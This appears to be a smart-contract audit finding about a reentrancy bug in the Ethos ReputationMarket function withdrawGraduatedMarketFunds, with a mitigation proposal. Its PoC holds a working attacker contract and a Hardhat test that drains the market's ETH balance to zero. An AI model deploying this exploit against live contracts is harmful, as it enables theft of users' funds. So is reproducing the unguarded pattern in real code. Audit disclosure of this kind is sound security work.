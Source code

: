 Striped Fuchsia Fly

High

# Graduate withdrawer can drain all market funds

### Summary

The Graduate withdrawer can execute reentrancy attack to drain all market funds

### Root Cause

- The [function `ReputationMarket::withdrawGraduatedMarketFunds()`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L660-L678) allows the graduator to withdraw funds from graduated markets. However, the function does not have reentrancy protection, which can allow the graduator to reenter the function to drain all markets funds.
```solidity
  function withdrawGraduatedMarketFunds(uint256 profileId) public whenNotPaused {
    address authorizedAddress = contractAddressManager.getContractAddressForName(
      "GRADUATION_WITHDRAWAL"
    );
    if (msg.sender != authorizedAddress) {
      revert UnauthorizedWithdrawal();
    }
    _checkMarketExists(profileId);
    if (!graduatedMarkets[profileId]) {
      revert MarketNotGraduated();
    }
    if (marketFunds[profileId] == 0) {
      revert InsufficientFunds();
    }

@>    _sendEth(marketFunds[profileId]);
    emit MarketFundsWithdrawn(profileId, msg.sender, marketFunds[profileId]);
@>    marketFunds[profileId] = 0;
  }
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. A malicious contract is set as Graduate withdrawal role
2. Graduate withdrawal role calls `graduateMarket()`
3. Graduate withdrawal role calls `withdrawGraduatedMarketFunds()`, triggers reentrancy attack to drain funds

### Impact

- Market funds can be drained all (rugpull)

### PoC

Example with a simple contract `RugpullWithdrawer` as below:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import "../ReputationMarket.sol";

contract RugpullWithdrawer {
    ReputationMarket market;

    bool reentered;
    uint256 cachedProfileId;

    constructor(address _market) {
        market = ReputationMarket(_market);
    }

    function rug(uint256 profileId) public {
        cachedProfileId = profileId;
        market.withdrawGraduatedMarketFunds(profileId);
    }

    fallback() external payable {
        if (!reentered) {
            reentered = true;
            rug(cachedProfileId);
        }
    }
}

```

Add the test below to test file `test/reputationMarket/rep.graduate.test.ts`, under the `describe('Graduated Market Fund Withdrawal'`

```js
  describe('Graduated Market Fund Withdrawal', () => {
   ...
    it.only('reentrancy', async () => {
      const initialBalance = await ethers.provider.getBalance(graduator.address);
      // first market's funds
      const funds = await reputationMarket.marketFunds(DEFAULT.profileId);
      
      // create a new market with the same funds
      await reputationMarket
      .connect(deployer.ADMIN)
      .createMarketWithConfigAdmin(ethosUserB.signer.address, 0, {
        value: DEFAULT.initialLiquidity,
      });

      await userA.buyVotes({ buyAmount: ethers.parseEther('0.1'), profileId: ethosUserB.profileId });
      await userB.buyVotes({ buyAmount: ethers.parseEther('0.1'), profileId: ethosUserB.profileId });

      let rugpullContractFactory = await ethers.getContractFactory("RugpullWithdrawer");
      let rugpullContract = await rugpullContractFactory.deploy(await reputationMarket.getAddress());

      await deployer.contractAddressManager.contract
      .connect(deployer.OWNER)
      .updateContractAddressesForNames([await rugpullContract.getAddress()], ['GRADUATION_WITHDRAWAL']);


      let balanceBefore = await ethers.provider.getBalance(await reputationMarket.getAddress())

      await rugpullContract.rug(DEFAULT.profileId);

      let balanceAfter= await ethers.provider.getBalance(await reputationMarket.getAddress())

      expect(balanceBefore).to.be.eq(funds * 2n);
      expect(balanceAfter).to.be.eq(0n);
    });
}
```

Run the test and console shows:
```bash
  ReputationMarket Graduation
    Graduated Market Fund Withdrawal
      ✔ reentrancy (119ms)
```

### Mitigation

Add reentrancy guard